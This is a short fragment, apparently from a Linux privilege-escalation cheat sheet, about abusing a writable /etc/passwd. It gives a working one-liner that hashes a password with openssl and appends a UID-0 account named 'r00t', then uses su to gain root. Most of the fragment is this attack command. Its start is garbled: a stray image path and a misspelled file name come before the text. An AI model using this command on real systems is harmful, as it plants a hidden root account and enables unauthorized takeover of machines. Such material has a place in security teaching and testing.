 # etc/password

If we have write-permissions to /etc/password, we can write a password to it:

```
pw=$(openssl passwd Password123); echo "r00t:${pw}:0:0:root:/root:/bin/bash" >> /etc/passwd
```

And now we can login with `su r00t`.


